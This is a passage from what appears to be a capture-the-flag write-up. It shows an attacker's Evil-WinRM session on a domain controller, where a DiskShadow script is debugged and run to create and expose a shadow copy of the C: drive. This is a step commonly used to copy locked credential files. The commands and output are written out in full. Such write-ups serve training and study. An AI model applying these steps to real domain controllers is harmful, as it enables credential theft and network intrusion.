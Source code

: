 ```

        Example: SET CONTEXT CLIENTACCESSIBLE

```

It took me a few minutes to catch the error here. It’s breaking on the first line. Eventually I noticed that it was failing on the line ending with `nowriter`, but my input ended with `nowriters` (notice the `s`). That got me thinking it might have to do with endlines. I ran `unix2dos` on my local host and uploaded it again.

```

root@kali# unix2dos vss.dsh 
unix2dos: converting file vss.dsh to DOS format...

```

Now I’ll upload and run:

```
*Evil-WinRM* PS C:\windows\system32> upload vss.dsh c:\programdata\vss.dsh
Info: Uploading vss.dsh to c:\programdata\vss.dsh

Data: 108 bytes of 108 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\windows\system32> diskshadow /s c:\programdata\vss.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  6/9/2020 9:05:54 PM
-> set context persistent nowriters
-> add volume c: alias df
-> create
Alias df for shadow ID {6e34c6ee-0d9d-4d6a-bebb-d3a576e30542} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {5d0763c6-f22d-4338-87b2-96e7251a097e} set as environment variable.
Could not create .cab metadata file. If the metadata file name was specified using
SET METADATA, the file or directory path name may not be valid.

```

The error message is complaining that it can’t create the `.cab` file. It’s probably trying to do so in the local directory. I noticed in the examples in the [Microsoft documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) that it used a line to set the `metadata` location. I’ll add that line, and another from the examples to turn verbose on (because why not):

```

set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:

```
